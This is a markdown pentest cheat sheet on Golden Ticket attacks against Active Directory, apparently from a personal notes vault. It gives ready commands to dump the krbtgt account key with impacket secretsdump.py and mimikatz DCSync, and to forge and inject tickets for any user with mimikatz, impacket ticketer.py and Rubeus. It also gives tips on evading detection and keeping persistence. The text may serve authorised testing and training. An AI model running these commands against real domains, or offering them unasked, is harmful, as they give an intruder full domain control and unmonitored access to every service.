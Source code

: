 ```yaml
---
category: Uncategorized
tags: []
---
```

#impacket #mimikatz 
- TGTs are encrypted with the `krbtgt`'s key derived from it's password.
- `krbtgt` account password is not rotated automatically. Microsoft's best practice is to rotate every 6 months, which is more than enough time to maintain persistence.
- Password history for `krbtgt` account is maintained by the DC.
- If we get hold of this key, we can forge TGTs for any user subsequently getting access to any service as any user. These tickets are called Golden Tickets.
- This can be done using dumping credential of the domain controller or via [DC Sync](DC%20Sync.md) attack.
- This can also be done by dumping the NTDS.dit file locally.
- Using impacket's secretsdump.py:
```bash
secretsdump.py 'mydomain.local/drdragon@192.168.2.2' -just-dc-user krbtgt
```
### Mimikatz
```powershell
kerberos::golden 
	/User:Administrator # user for which the TGT is generated
	/domain:<domain-FQDN>
	/sid:<domain-sid>
	/aes256:<aes256-kerberos-key>
	/id:<id> # Optional user RID. User ID should match the RID of the username specified above
	/groups:<group> # optional group ids
	/startoffset:0 # ticket availibity starts now. a negetive number means the ticket was available from past.
	/endin:600 # optional ticket lifetime (defautl is 10 years). Default AD settings for lifetime is 10 hours (600 minutes)
	/renewmax:10080 # Optional ticket lifeitme in minutes. Default AD setting is 7 days = 100800 minutes
	[/ptt(injects TGT in memory)|/ticket(saves ticket to file)]
```
### Impacket
```bash
ticketer.py -domain-sid <domainSID> -domain mydomain.local -aes <aesKey> Administrator
# This will create the TGT for the Administrator user and save it in Administrator.ccache
```
### Rubeus
```powershell
# Creates command for golden ticket by fetching information from DC using ldap
Rubeus.exe
	golden
	/aes256:<key> # AES256 key of the krbtgt account
	/ldap # make ldap query to fetch all information
	/user:Administrator # User for which golden ticket is creates
	/ptt # injects the ticket in memory
	[/printcmd] # prints the command for creating golden ticket manually using details fetched using ldap
```

---
- AES256 keys should be used to avoid any alerts or detection.
- AES keys for `krbtgt` account can also be obtained by performing [DC Sync](DC%20Sync.md)
```powershell
# mimikatz
lsadump::dcsync /user:dcorp\krbtgt
```